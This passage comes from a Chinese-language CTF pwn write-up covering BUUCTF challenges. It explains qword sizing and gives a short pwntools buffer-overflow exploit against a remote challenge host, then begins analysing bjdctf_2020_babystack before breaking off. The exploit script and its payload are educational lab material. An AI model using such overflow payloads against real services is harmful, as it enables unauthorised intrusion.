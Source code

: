q就是英文quad-这个词根（意思是4）的首字母

所以它自然是word（2字节，0~2^16-1）的四倍，8字节

所以前13位要为'aaaa'，4倍



最终exp：

```python
from pwn import *

r = remote('node5.buuoj.cn',25756)

payload = b'a' * (13*4)   +  p32(0x11) + p32(0)

r.sendline(payload)

r.interactive()
```



## bjdctf_2020_babystack

同理：main函数：



![image-20241027165011249](../_media/image-20241027165011249.png)

可以发现这里有两个可以上传的值，一个是nbytes，用来限制保护后面传的buf，但是它可以被我们控制，所以我们应该直接传最大值，啥都不管。

然后看到buf才是我们主要用的

双击可以看到：
